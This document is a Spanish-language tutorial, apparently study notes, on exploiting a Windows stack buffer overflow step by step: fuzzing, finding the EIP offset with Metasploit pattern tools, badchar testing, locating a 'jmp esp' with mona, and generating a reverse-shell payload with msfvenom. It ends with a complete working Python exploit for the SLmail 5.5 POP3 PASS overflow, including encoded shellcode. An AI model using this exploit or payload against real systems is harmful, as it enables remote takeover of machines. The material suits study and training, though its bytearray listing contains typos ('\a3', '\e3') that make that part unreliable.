

Se puede ver exactamente toda esta metodologia en la maquina _Buff_:
https://www.youtube.com/watch?v=TytUFooC3kU
---
1) Lo primero que queres hacer, es comprobar si es vulnerable a BOF, mandando, por ejemplo, 5000 bytes.
---
2) Supongamos que cuando le mandas 5000 bytes, revienta -> _BOF_
---
3) Ahora queremos saber en que byte exacto se produce el _Offset_ o revienta el programa. Por lo que generamos una cadena unica, en hexa:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern-create.rb -l 5000
```
Eso genera una cadena totalmente aleatoria de 5000 bytes -> 2000bytes la q voy a mostrar:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co
```
---
4) Mandarle el payload y ver el _EIP_. 

---
5) Mandarle el EIP, por ejemplo, _7a46317a_ a la herramienta de metasploit pattern_offset para calcular el _Offset_ (donde se produce la ruptura, en la posicion exacta donde se pasa a sobreescribir EIP):
```bash
/usr/share/metasploit-framework/tools/exploit/pattern-offset.rb -q 0x7a46317a
```

---
6) Tenemos el **control del EIP**!!! Ahora queremos ver a donde van los bytes que le mandamos _despues del EIP_. Supongamos que vemos esto desde la app _Immunity Debugger_. Donde:
_A_ -> _Padding_ o _before EIP_
_B_ (42424242) -> _EIP_
_C_ -> After EIP


Vemos que el _After EIP_ se esta escribiendo en el registro **ESP**.

Si nosotros entramos en detalle de lo que hay atras del **ESP**, podemos ver algo asi:



Ahora, nos gustaria redirigir el **EIP** (`B`) --> _0251A128_, que es la direccion de memoria donde empieza el _ESP_ ---> pero **NO** es tan facil.

---
7) El paso siguiente es el importante, pero antes, hay que saber que hay **BadChars** (bytes que se rompen, cortan, escapan o mutan en el camino), por lo que ahora tenemos que hacer _fuzzing_ para descubrir esos BadChars.

* Crear un **bytearray** (siempre es lo mismo, **secuencia ordenada de todos los bytes**, normalmente desde `0x00` hasta `0xFF`, usados para detectar badchars en un buffer overflow.:
```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f
\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f
\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f
\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f
\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f
\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f
\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f
\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f
\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f
\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f
\xa0\xa1\xa2\a3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf
\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf
\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf
\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf
\xe0\xe1\xe2\e3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef
\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
**NOTA**: Hay algunos bytes que suelen dar problemas, suelen ser _badchars_ -> `0x00 (nullbyte)`, `0x0a` o `0x0d`


* Una vez tenemos el **bytearray**, vamos a mandarlo al **esp** (en lugar de las **C**), despues del **EIP**. Deberiamos ver algo asi, en este caso, revienta en`0x0a`, ya que esta despues de 09:
   


* Ahora que se hace?? Sacamos el _badchar_ del _bytearray_ y repetimos el proceso hasta que recorra **todo** el _bytearray_ completo.

---
8) Una vez sabemos que el _post-EIP_ apunta a _ESP_, queremos apuntar el **EIP** -> **ESP**, pero no se puede simplemente apuntar a la direccion de memoria del _esp_, ya que este cambia, cada instrucción hace `push`, `pop`, `call`, `ret`, etc.  Por eso nunca vas a saber la dirección exacta de ESP en el momento del crash.  

Tenemos que apuntar a _una direccion donde se aplique un salto al_ **ESP** ---> `jmp esp`

```
!mona modules
```
Y vamos a ver algo asi:


En las primeras 4 columnas que dice True o False (Desde Rebase hasta NXCompat) especifican protecciones, buscamos que sean todas **False**. Para buscar `jmp esp` dentro de ellas

SABEMOS QUE `jmp esp` -> \xFF\xE4 
Entonces vamos a buscar eso dentro de cualquier _Path_ con las protecciones deshabilitadas:
```
!mona find -s "\xFF\xE4" -m Openc32.dll 
```

Devuelve algo asi:


Vamos a buscar en las direcciones (full izq), las q no tengan los _BadChars_ (\x00\x0a\x0d). Vamos a elegir la ultima (0x5f4c4d13).

Si no encuentra nada, hay otra forma:
```
!mona findwild -s "JMP ESP"
```


El sig creo que directamente hace una busqueda recursiva, pero no estoy seguro
```
!mona jmp -r esp
```
Esto busca **todas** las instrucciones tipo:

- `JMP ESP`
- `CALL ESP`
- `PUSH ESP / RET`
- `MOV EAX,ESP / JMP EAX`

Y te lista direcciones válidas, por ejemplo:
`0x625011af : jmp esp | msf.dll`

---
9) Una vez encontramos la direccion que apunta a `jmp esp`, esta casi terminado. Ahora vamos a asignarle esa direccion a _EIP_ en **LittleEndian**: `0x5f4c4d13` -> `\x13\x4d\x4c\x5f`
---
10) Ahora vamos a crear el _ShellCode_, usando msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOSTS=192.168.0.9 LPORT=443 -f py -b '\x00\x0a\x0d' -e x86/shikata_ga_nai EXITFUNC=thread
```

_-p_ -> Payload que vamos a utilizar 
_--platform_ -> Plataforma victima
_-a_ -> Arquitectura de CPU victima
_LHOST_ y _LPORT_ -> ip y puerto a donde se va a conectar la victima, el **nuestro** basicamente.
_-f_ -> Tipo de archivo donde se va a poner el payload, si estas programando el exploit en python, se pone py, en c = c, etc.
_-b_ -> Especificamos los _BadChars_. 
_-e_ -> Encoder: Es un módulo que transforma tu shellcode para: evitar badchars, evadir detección (antivirus/EDR).Le cambia los bytes, pero mantiene exactamente la misma funcionalidad. En este caso usamos uno _polimorfico_ muy piola (siempre es distinto el payload).

**SI HAY MUCHOS BADCHARS QUITAR LA FLAG DEL ENCODER**

---
11) ANTES de explotar, hay que saber una cosa:

El shellcode, al ser bastante amplio y ciertamente complejo su ejecucion puede requerir mas tiempo de la que el procesador tiene disponible antes de que continue con la siguiente instruccion del programa, por lo que se le asigna un espacio como de "descanso" para q el procesador entienda la peticion. Para ello hay 2 formas:
		1) Meterle _NOPS_ (x90), que son instrucciones que literalmente no hacen nada, le podes meter _16_, por ejemplo, antes del shellcode: **payload = padding + eip + nops + shellcode**
		2) Efectuar un desplazamiento de la pila


---
12) LISTO, el codigo quedaria asi:

```python
import struct
import socket

print "\n\n###############################################"
print "\nSLmail 5.5 POP3 PASS Buffer Overflow"
print "\nFound & coded by muts [at] offsec.com"
print "\nFor Educational Purposes Only!"
print "\n\n###############################################"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)


sc = "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc += "\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc += "\x31\x97\xae\xc4\x7e\x97\x87\xdc\xed\x48\xc7\x98\x67\xf6\x49\xaa"
sc += "\x7e\x97\x98\xc0\x67\xf7\x21\xd2\x2f\x97\xf6\x6b\x67\xf2\xf3\x1f"
sc += "\x9a\x2d\x02\x4c\x5e\xfc\xb6\xe7\xa7\xd3\xcf\xe1\xa1\xf7\x30\xdb"
sc += "\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc += "\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc += "\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc += "\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc += "\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc += "\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc += "\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc += "\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc += "\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc += "\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc += "\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc += "\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc += "\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc += "\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc += "\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"

buffer = '\x41' * 4654 + struct.pack('<L', 0x783d6ddf) + '\x90'*32 + sc


try:
        print "\nSending evil buffer..."
        s.connect(('192.168.1.167',110))
        data = s.recv(1024)
        s.send('USER username' +'\r\n')
        data = s.recv(1024)
        s.send('PASS ' + buffer + '\r\n')
        data = s.recv(1024)
        s.close()
        print "\nDone! Try connecting to port 4444 on victim machine."
except:
        print "Could not connect to POP3!"
```
